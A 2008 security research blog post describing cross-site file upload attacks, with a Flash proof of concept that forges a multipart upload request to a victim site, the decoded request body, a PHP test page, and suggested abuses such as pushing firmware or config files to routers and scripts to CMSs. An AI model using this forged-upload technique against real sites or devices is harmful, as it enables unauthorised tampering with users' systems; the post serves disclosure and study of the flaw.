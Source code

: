 ```yaml
---
title: Cross-site File Upload Attacks
author: petko-d-petkov
date: Thu, 21 Feb 2008 12:15:32 GMT
template: this/views/post.jade
---
```


As you probably already know, CSRF attack are only possible when the attacked web application does not have an additional mechanism to ensure that requests towards it are genuine. In order to do that, the web developer must include a unique token for each request, which is validated on the server upon receiving a request. If the request value that represents the token matches the token that was generated for the request, then it is considered genuine and it should be left for additional processing. However, if both values do not match then the request is considered forged and as such should be disregarded.

Unfortunately, when it comes to file upload facilities, developers often forget to make such checks relying on the fact that file uploads are not spoofable, which in general is the correct assumption. However, when dealing with Web technologies, we often stumble across nasty surprises. The reason CSRF attacks against file uploads are not possible is because the HTML FORM specifications are not versatile enough to define sub-fields like `filename="whatever.txt"`, which are vital parts of the `multipart/form-data` specifications when submitting files. This is the only restriction and I will show you that attackers can easily overcome it with a bit of help from Flash.

## Cross-site File Uploads

We've already proved that various forms of home routers can be [entirely compromised](/blog/hacking-the-interwebs/) and hacked by [forging UPnP requests with flash](/blog/flash-upnp-attack-faq/). Now I will show you that file uploading facilities can be attacked in a similar way. Let's examine the following code, which you can compile with Flex2 SDK - `c:\Flex2\bin\mxmlc code.mxml`:

```xml
<mx:Application xmlns:mx="http://www.adobe.com/2006/mxml" creationComplete="onAppInit()">
	<mx:Script>
		/* by Petko D. Petkov; pdp
		 * GNUCITIZEN
		 **/
		import flash.net.*;

		private function onAppInit():void
		{
			var r:URLRequest = new URLRequest('http://victim.com/upload.php');

			r.method = 'POST';
			r.data = unescape('-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22file%22%3B filename%3D%22gc.txt%22%0D%0AContent-Type%3A text%2Fplain%0D%0A%0D%0AHi from GNUCITIZEN%21%0D%0A-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22submit%22%0D%0A%0D%0ASubmit Query%0D%0A-----------------------------109092118919201--%0A');
			r.contentType = 'multipart/form-data; boundary=---------------------------109092118919201';

			navigateToURL(r, '_self');
		}
	</mx:Script>
</mx:Application>
```

If you carefully read the content of the script you will notice that we are preparing an `URLRequest` object which we load with a `POST` method, a `contentType` which equals to `multipart/form-data` and a url-encoded data text. If we unencode the text we get the following result. Now let's have a look at it as well. Notice the `filename="gc.txt"` field:

```http
-----------------------------109092118919201
Content-Disposition: form-data; name="file"; filename="gc.txt"
Content-Type: text/plain

Hi from GNUCITIZEN!
-----------------------------109092118919201
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------109092118919201--
```

This looks like a valid `multipart/form-data` file upload, doesn't it? If you compile and execute the code you will see that the file upload is completely valid and will upload a file called `gc.txt` with content of `Hi from GNUCITIZEN!`. But you can also use the following PHP script to verify the result if you feel skeptical about the whole concept.

```php
<?php if ($_FILES['file']['error'] > 0): ?>
	<h1>Failiure</h1>
	<pre>
		<?php print_r($_FILES) ?>
	</pre>
<?php elseif (isset($_FILES['file'])): ?>
	<h1>Success</h1>
	<pre>
		<?php print_r($_FILES) ?>
		<?php echo file_get_contents($_FILES['file']['tmp_name']) ?>
	</pre>
<?php else: ?>
	<form method="post" enctype="multipart/form-data">
		<input type="file" name="file"/> 
		<input type="submit" name="submit"/>
	</form>
<?php endif ?>
```

## The Impact of Cross-site File Upload (CSFU) Attacks

Like CSRF attacks, there are plenty of things one can do with this type of technique. Here is a couple of evil things that come into my mind:

* Upload a nasty picture on someone's profile - I admit this is not very useful but still very funny and open for abuse.
* Upload a shiny new firmware to the router that is under attack by using the user as a proxy. This is pretty nasty and given the fact that there are numerous authentication bypass and A-to-C bugs floating around, it is very, very feasible.
* Upload a shiny new configuration file on the router that is under attack. Same as the one above - very feasible and easy to perform.
* Upload executable scripts on CMS - this of course is a bit more targeted..
